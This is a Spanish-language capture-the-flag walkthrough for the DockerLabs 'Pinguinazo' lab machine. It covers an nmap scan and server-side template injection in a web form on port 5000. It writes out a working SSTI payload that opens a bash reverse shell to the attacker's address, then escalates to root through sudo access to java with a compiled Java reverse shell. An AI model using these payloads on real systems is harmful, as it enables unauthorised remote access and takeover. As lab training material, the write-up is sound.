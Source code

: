 # Pinguinazo

![DockerLabs](https://dockerlabs.es/images/logos/logo.png)

**Autor:** [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

**Dificultad:** Fácil

**Fecha de creación:** 24/06/2024

----------------------------------------------

DESPLIEGUE

```
bash auto_deploy.sh pinguinazo.tar
```

![](BLOG-GIT/images/Pasted%20image%2020241203142400.png)

La ip es : 

```
172.17.0.2
```

----------------------------------------------------

RECONOCIMIENTO



```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

`-p-` ⮞ aplicar reconocimiento a todos los puertos. 

`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida.  

`-sV` ⮞ Encuentra la versión del servicio abierto. 

`-sC` ⮞ Usa unos scripts de reconocimiento.

`--min-rate 5000` ⮞ para que el reconocimiento vaya más rápido. 

`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro) .

`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla.  

`-Pn` ⮞ Ignora si esta activa o no la IP.  

`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)  (Este no lo usaré).


Al realizar el scaneo vemos que tenemos un puerto, el 5000

![](BLOG-GIT/images/Pasted%20image%2020241203142952.png)

Un servicio que corre upnp 

Miramos por el puerto 5000 y vemos lo siguiente : 

![](BLOG-GIT/images/Pasted%20image%2020241203143725.png)

Si metemos en PinguNombre lo siguiente: `<h1>"lo que quieras"</h1>`veremos que hay una vulnerabilidad. 



Nos levantamos un `nc` 




Podemos hacer lo siguiente : 

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Y vemos que es vulnerable al SSTI (Server Side Template Injection)

Y pondremos lo siguiente: 

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('/bin/bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"').read() }}
```

Y ya tendríamos conexión. 

![](BLOG-GIT/images/Pasted%20image%2020241203153421.png)

Hacemos un tratamiento de la TTY.

Y ya estaríamos más estable.

![](BLOG-GIT/images/Pasted%20image%2020241203153641.png)

Ponemos `sudo -l`

Nos da el binario java, nos meteremos en la página de https://www.revshells.com/
y pondremos nuestra IP atacante y el puerto 443. 

![](BLOG-GIT/images/Pasted%20image%2020241203154155.png)

Lo copiamos y creamos un archivo revshell.java

Y pegamos lo antenior. 


![](BLOG-GIT/images/Pasted%20image%2020241203154252.png)


Vamos a compilarlo. 

```
javac revshell.java
```

Una vez compilado nos pondremos a la escucha con `nc` por el puerto que queramos. 

Pondremos esto 

![](BLOG-GIT/images/Pasted%20image%2020241203154804.png)


![](BLOG-GIT/images/Pasted%20image%2020241203154738.png)
Ya estamos como root. 
